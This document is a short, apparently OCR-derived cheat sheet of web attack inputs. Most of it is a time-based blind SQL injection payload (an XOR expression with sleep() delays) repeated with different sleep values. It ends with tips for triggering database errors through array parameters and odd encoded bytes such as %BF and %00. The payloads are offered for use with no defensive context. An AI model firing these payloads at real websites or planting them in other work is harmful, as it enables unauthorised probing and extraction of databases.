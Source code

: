 
0"XOR(if(now()=sysdate(),sleep(12),0))XOR”Z <br>
0"XOR(if(now()=sysdate(),sleep(12),0))XOR”Z <br>
0"XOR(if(now()=sysdate(),sleep(0),0))XOR”Z <br>
0"XOR(if(now()=sysdate(),sleep(6),0))XOR”Z <br>
0"XOR(if(now()=sysdate(),sleep(3),0))XOR”Z <br>
0"XOR(if(now()=sysdate(),sleep(0),0))XOR”Z <br>
0"XOR(if(now()=sysdate(),sleep(12),0))XOR”Z <br>
0"XOR(if(now()=sysdate(),sleep(6),0))XOR”Z <br>
0"XOR(if(now()=sysdate(),sleep(0),0))XOR”Z <br>

try get errors 
using []
?id=1 --- ?id[]=1
%BF
5ff
%00

